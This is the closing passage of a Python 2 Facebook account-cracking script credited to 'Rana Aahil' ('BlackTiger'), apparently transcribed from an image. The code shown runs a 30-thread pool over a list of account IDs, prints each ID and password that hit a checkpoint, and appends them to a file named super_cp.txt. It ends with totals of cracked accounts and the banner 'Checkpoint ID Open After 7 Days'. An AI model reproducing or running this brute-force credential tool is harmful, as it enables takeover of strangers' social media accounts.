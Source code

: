 				                                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass9 + '\n'
				                                                                                                   cek = open("out/super_cp.txt", "a")
				                                                                                                   cek.write("ID:" +user+ " Pw:" +pass9+"\n")
				                                                                                                   cek.close()
				                                                                                                   cekpoint.append(user+pass9)		
											                                       
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;91mBlackTiger\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
	print "  \033[1;91m«---•◈•---Developed By Rana Aahil--•◈•---»" #Dev:Rana
	print '\033[1;93m✅Process Has Been Completed Press➡ Ctrl+Z.↩ Next Type (python2 Tiger.py)↩\033[1;97m....'
	print"\033[1;91mTotal OK/\x1b[1;95mCP \033[1;93m: \033[1;91m"+str(len(oks))+"\033[1;93m/\033[1;96m"+str(len(cekpoint))
	print """
 ____________¶¶¶1¶¶_________¶¶¶¶¶¶¶___________ 
_________¶¶¶111¶¶___________¶¶111¶¶¶¶________ 
______¶¶¶¶1111¶¶¶____________¶¶¶1111¶¶¶1_____ 
_____¶¶¶1111¶¶¶¶_____________¶¶¶¶11111¶¶¶____ 
___¶¶¶11¶1¶1¶¶¶¶___¶¶____¶¶__¶¶¶¶¶1¶1¶1¶¶¶1__ 
__¶¶¶11¶1¶11¶¶¶¶¶__¶¶¶¶¶¶¶¶__¶¶¶¶¶1¶1¶¶11¶¶1_ 
_¶¶¶11¶¶1¶11¶¶¶¶¶¶__¶¶¶¶¶¶_¶¶¶¶¶¶¶1¶¶1¶¶1¶¶¶_ 
¶¶¶¶1¶¶11¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶1¶¶¶1¶¶¶ 
¶¶¶11¶¶11¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶¶1¶¶¶1¶¶¶ 
¶¶¶1¶¶¶¶1¶¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶11¶¶¶1¶¶¶11¶¶ 
_¶¶11¶¶¶1¶¶¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶¶1¶¶¶¶1¶¶¶ 
_¶¶¶1¶¶¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶¶¶1¶¶1 
__¶¶1¶¶¶¶¶¶¶¶__¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶__¶¶¶¶¶¶¶¶1¶¶¶_ 
___¶¶1¶¶¶_¶¶_______¶¶¶¶¶¶¶¶______¶¶¶¶¶¶¶¶¶¶__ 
____¶¶¶¶____________¶¶¶¶¶¶___________¶¶¶¶____ 
______¶¶¶__________¶¶¶__¶¶¶__________¶¶______ 
_______¶¶¶_________¶______¶_________¶¶¶______
 
         Checkpoint ID Open After 7 Days
•\033[1;95m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.
: \033[1;91m ....Aahil Creations....... \033[1;95m :
•\033[1;95m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.' 
                Facebook
              \033[1;91m Aahil"""
	
	raw_input("\n\033[1;95m[\033[1;91mBack\033[1;95m]")
	menu()

if __name__ == '__main__':
	login()
